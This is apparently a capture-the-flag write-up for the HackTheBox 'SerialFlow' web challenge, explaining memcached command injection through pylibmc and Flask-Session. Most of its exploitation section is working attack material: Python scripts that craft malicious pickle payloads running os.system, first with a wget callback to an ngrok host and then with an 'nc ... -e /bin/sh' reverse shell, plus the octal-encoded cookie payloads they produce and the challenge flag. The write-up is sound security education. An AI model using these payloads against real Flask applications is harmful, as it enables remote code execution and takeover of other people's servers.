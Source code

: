 # SerialFlow

Date: March 2024

Difficulty: <font color='orange'>Medium</font>

Category: **web**

## Description
>SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

## Strategy



## Enumeration

The website at first view does not provide much functionalities.

![](assets/overview.png)

We are given the source code "web_serialflow.zip".

### Analyzing the source code

#### 1. uicolor query parameter

We see that if passed a uicolor value via query parameter it changes the color. At first, we supposed the initial foothold was via manipulating this value (SSTI, css injection, etc), but proved to be wrong.

![](assets/uicolor.png)

Changed value to #a71919: `/set?uicolor=%23a71919`
![](assets/setcolor.png)
![](assets/colorchanged.png)

#### 2. memcached and pylibmc

There is a really interesting [post](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) about memcached command injections at pylibmc python library, which also got for review in the nomination of the [top 10 web hacking techniques of 2023 by Portswigger](https://portswigger.net/research/top-10-web-hacking-techniques-of-2023-nominations-open).

![](assets/revshell-target-flag.png)

The [proof of concept](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py) provided in the post is very similar to serialflow:
1. [requirements.txt](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/requirements.txt) of the PoC has the same versions for Flask, Flask-Session, pylibmc and Werkzeug python libraries.
2. The `app.py` provides the /set endpoint for saving and / for retrieving values from the session storage at Memcached.


![](assets/requirements.png)

```python
[...]
app = Flask(__name__)
[...]
app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])

[...]

@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")

@app.route("/")
def main():
    uicolor = session.get("uicolor", "#f1f1f1")
    return render_template("index.html", uicolor=uicolor)

```

#### 3. Memcached injections talk at BlackHat 2014

There is an interesting [research](https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf) / [talk](https://www.youtube.com/watch?v=K4OWPdMLi64) about memcached injections by Ivan Novikov that mentions that memcached injections can be used to gain RCE via deserialization of unreliable data.

![](assets/research-2014.png)

## Exploitation

### 1. Understanding differences between PoC and challenge

- The PoC uses a session called ["notsecret"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L17) which is set via] `app.config["SESSION_COOKIE_NAME"]`.
- The PoC uses a key prefix ["BT_:"](https://github.com/d0ge/proof-of-concept-labs/blob/main/pylibmc-flask-session/application.py#L16C17-L16C35)
- The challenge <u>does not set</u> explicitly the session variables "SESSION_COOKIE_NAME" or "SESSION_KEY_PREFIX" as the the PoC. The defaults values for them are "session" and "session:" respectively by the documentation [\[1\]](https://flask.palletsprojects.com/en/2.3.x/config/#SESSION_COOKIE_NAME), [\[2\]](https://flask-session.readthedocs.io/en/latest/config.html#SESSION_KEY_PREFIX).
- There is a public [tweet](https://twitter.com/d4d89704243/status/1621972831952162816) by the author of the PoC that clarifies a little better the exploitation.

![](assets/cookie-name.png)
![](assets/key-prefix.png)
![](assets/tweet-poc.png)


### 2. Crafting serialized pickle payload to gain RCE on the target

Based on [#1](#1-understanding-differences-between-poc-and-challenge) and the [PoC](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) we craft the following exploit to verify the vulnerability. The idea is to get a callback to our server.
We already checked that /usr/bin/wget is present on the docker image.

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('wget https://1a71-2800-a4-32d0-e500-2fe9-9985-8827-ead.ngrok-free.app -O /dev/null')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())

```

That resulted in:

```bash
$ python3 memcached.py 
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\061\061\064\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\167\147\145\164\040\150\164\164\160\163\072\057\057\061\141\067\061\055\062\070\060\060\055\141\064\055\063\062\144\060\055\145\065\060\060\055\062\146\145\071\055\071\071\070\065\055\070\070\062\067\055\145\141\144\056\156\147\162\157\153\055\146\162\145\145\056\141\160\160\040\055\117\040\057\144\145\166\057\156\165\154\154\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```

The exploit is [here](./exploit.py)

### 3. Gain RCE with generated local image of the challenge

This step is acomplished via 2 steps unified:
- Call the /set endpoint which saves our serialized payload in memcached.
- Redirect to / which loads and deserializes our payload.

Placing the generated payload inside the current "session" cookie and following the redirect executes our payload:

![](assets/rce-wget.png)
![](assets/wget-callback.png)

Checking locally in the log console it displays the connection:
![](assets/console-log.png)

Now we changed the payload for a reverse shell:

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.sa.ngrok.io 15167 -e /bin/sh')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""

print("Exploit Memcached RCE", generate_exploit())
```

```bash
$ python3 memcached.py  
Exploit Memcached RCE "\061\063\067\015\012\163\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067\040\060\040\062\065\071\062\060\060\060\040\066\071\015\012\143\160\157\163\151\170\012\163\171\163\164\145\155\012\160\060\012\050\126\156\143\040\060\056\164\143\160\056\163\141\056\156\147\162\157\153\056\151\157\040\061\065\061\066\067\040\055\145\040\057\142\151\156\057\163\150\012\160\061\012\164\160\062\012\122\160\063\012\056\015\012\147\145\164\040\163\145\163\163\151\157\156\072\061\063\063\067"
```

![](assets/revshell-local.png)
![](assets/connection-received-local.png)

### 4. Reverse shell on the target and get the flag

The same revshell payload with the target and get the flag `HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}`

![](assets/revshell-target.png)
![](assets/connection-target.png)
![](assets/revshell-target-flag.png)

![](assets/pwned.png)
